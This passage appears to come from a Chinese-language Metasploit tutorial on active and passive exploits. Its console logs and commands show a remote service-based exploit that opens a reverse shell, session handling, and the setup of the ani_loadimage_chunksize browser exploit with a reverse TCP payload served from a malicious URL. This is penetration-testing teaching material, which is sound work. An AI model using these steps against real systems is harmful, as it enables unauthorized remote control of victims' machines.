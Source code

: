 ```shell
[*] Connecting to the server...
[*] Started reverse handler
[*] Authenticating as user 'victim'...
[*] Uploading payload...
[*] Created \hikmEeEM.exe...
[*] Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
[*] Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
[*] Obtaining a service manager handle...
[*] Creating a new service (ciWyCVEp - "MXAVZsCqfRtZwScLdexnD")...
[*] Closing service handle...
[*] Opening service...
[*] Starting the service...
[*] Removing the service...
[*] Closing service handle...
[*] Deleting \hikmEeEM.exe...
[*] Sending stage (240 bytes)
[*] Command shell session 1 opened (192.168.1.5:4444 -> 192.168.1.100:1073)

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

#### PASSIVE EXPLOITS

被动渗透会等待传入的主机并在它们连接时加以利用。
- 被动漏洞利用几乎总是集中在Web浏览器，FTP客户端等客户端上。
- 它们也可以与电子邮件攻击结合使用，以等待连接。
- 可以通过将'-l'传递给session命令来枚举被动漏洞利用报告shell的状态。
- 传递“ -i”将与外壳交互。

```Shell
msf exploit(ani_loadimage_chunksize) > sessions -l

Active sessions
===============

  Id  Description  Tunnel
  --  -----------  ------
  1   Meterpreter  192.168.1.5:52647 -> 192.168.1.100:4444

msf exploit(ani_loadimage_chunksize) > sessions -i 1
[*] Starting interaction with 1...

meterpreter >
```


下面是一个例子，展示了安装渗透动画光标漏洞的后，渗透直至被攻击目标的浏览器连接到我们的恶意网站时才激活。

```shell
msf > use exploit/windows/browser/ani_loadimage_chunksize
msf exploit(ani_loadimage_chunksize) > set URIPATH /
URIPATH => /
msf exploit(ani_loadimage_chunksize) > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf exploit(ani_loadimage_chunksize) > set LHOST 192.168.1.5
LHOST => 192.168.1.5
msf exploit(ani_loadimage_chunksize) > set LPORT 4444
LPORT => 4444
msf exploit(ani_loadimage_chunksize) > exploit
[*] Exploit running as background job.

[*] Started reverse handler
[*] Using URL: http://0.0.0.0:8080/
```